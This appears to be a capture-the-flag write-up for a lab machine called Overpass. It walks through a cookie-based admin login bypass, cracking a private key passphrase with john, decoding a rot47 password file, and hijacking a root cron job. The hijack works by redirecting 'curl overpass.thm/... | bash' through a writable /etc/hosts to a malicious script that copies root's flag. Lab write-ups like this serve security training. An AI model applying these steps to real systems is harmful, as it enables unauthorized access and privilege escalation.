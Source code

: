 1. Look into `login.js` at `/admin` page, it shows if our cookie `SessionToken` is not "Incorrect credentials", then we will login as admin.
```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```
2. After login, we get James's private key with passphrase. We can use `john` to crack it.
```bash
$ /opt/john/run/john james.john --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt > pass.john
Using default input encoding: UTF-8
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 1 candidate left, minimum 4 needed for performance.
1g 0:00:00:05 DONE (2021-06-17 17:49) 0.1801g/s 2584Kp/s 2584Kc/s 2584KC/s *7¡Vamos!
Session completed
```
3. Under James's home directory, we can find `.overpass` file, where Overpass store the passwords. Decrypted it with rot47, we get James's password.
```bash
james@overpass-prod:~$ cat .overpass
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.

# rot47 => [{"name":"System","pass":"saydrawnlyingpicture"}]
```
4. Run LinPEAS, we see two interesting things: root is always executing the shell script download from overpass.thm, and, /etc/hosts is writable.
```bash
$ sh linpeas.sh
...
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash

$ ls -l /etc/hosts
-rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts
```
5. Change `overpass.thm` to be our ip, then execute as root!
```bash
$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
# 127.0.0.1 overpass.thm
10.9.1.235 overpass.thm

$ echo 'cat /root/root.txt > /tmp/a;chmod 777 /tmp/a' > downloads/src/buildscript.sh; python3 -m http.server 80
...
